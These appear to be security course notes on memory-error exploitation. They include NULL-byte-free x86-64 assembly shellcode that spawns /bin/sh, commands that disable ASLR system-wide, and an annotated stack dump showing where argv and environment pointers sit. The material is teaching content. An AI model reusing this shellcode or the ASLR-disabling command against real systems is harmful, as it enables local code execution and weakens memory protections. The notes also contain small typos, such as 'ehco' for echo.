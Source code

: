 > [!bug] Shellcode Problems
> We specified before that the code **cannot** include any NULL bytes:
> 1. `movb` commands contains NULL bytes
> 2. `movl $0x3b, %eax` doesn't copy 1 byte, but 4: `long 0x3b` -> `0x0000003b`
> 3. `leaq string_addr(%rip), %rdi` loads the offset from the command to the string, but using 4 bytes:
>    `offset 0x22` -> `0x00000022`

```java
.data  
.globl shellcode  
shellcode:                             // jump over the string
	jmp over_string  
string_addr:  
	.ascii "/bin/shNAAAAAAAABBBBBBBB"
over_string:
	leaq string_addr(%rip), %rdi       // offset now negative (0xffffffe1)
	xorl %eax, %eax                    // set %rax to zero
	movb %al,   0x07(%rdi)             // use %rax to avoid explicit zero
	movq %rdi,  0x08(%rdi)
	movq %rax,  0x10(%rdi)             // user %rax to avoid explicit zero
	leaq 0x08(%rdi), %rsi
	movq %rax, %rdx                    // user %rax to avoid explicit zero
	movb $0x3b, %al                    // bytes reg avoids zero, upper bytes are zero
	syscall
	.byte 0
```
# Practical Memory Error Exploits
First we switch off aslr, compile a program which dumps its memory, and run using a replaced environment:
```bash
ehco 0 | sudo tee /proc/sys/kernel/randomize_va_space
cc -o dump dump.c
env -i env1=x env2=y ./dump arg1 arg2
```
The following memory represents the bottom of the stack.
```
7fffffffee30 03 00 00 00 00 00 00 00 d2 ef ff ff ff 7f 00 00 ................ 7fffffffee40 d9 ef ff ff ff 7f 00 00 de ef ff ff ff 7f 00 00 ................ 7fffffffee50 00 00 00 00 00 00 00 00 e3 ef ff ff ff 7f 00 00 ................ 7fffffffee60 ea ef ff ff ff 7f 00 00 00 00 00 00 00 00 00 00 ................ 7fffffffee70 21 00 00 00 00 00 00 00 00 a0 ff f7 ff 7f 00 00 !...............
...
7fffffffefb0 00 00 00 00 00 00 00 00 00 b4 92 63 55 19 a5 75 ...........cU..u
7fffffffefc0 35 1d 7d 1e 03 fc 5d 9e 8f 78 38 36 5f 36 34 00 5.}...]..x86_64.
7fffffffefd0 00 00 2e 2f 64 75 6d 70 00 61 72 67 31 00 61 72 .../dump.arg1.ar
7fffffffefe0 67 32 00 65 6e 76 31 3d 78 00 65 6e 76 32 3d 79 g2.env1=x.env2=y
7fffffffeff0 00 2e 2f 64 75 6d 70 00 00 00 00 00 00 00 00 00 ../dump.........
```
In the memory above, there is stored addresses to the data stored below. These arrays store pointers for `main` to execute with.
- `d2 ef ff ff ff 7f 00 00`: pointer to `./dump.` on the stack
- `d9 ef ff ff ff 7f 00 00`: pointer to `arg1.` on the stack
- `de ef ff ff ff 7f 00 00`: pointer to `arg2.` on the stack
- `e3 ef ff ff ff 7f 00 00`: pointer to `env1=x.` on the stack
- `ea ef ff ff ff 7f 00 00`: pointer to `env2=y.` on the stack
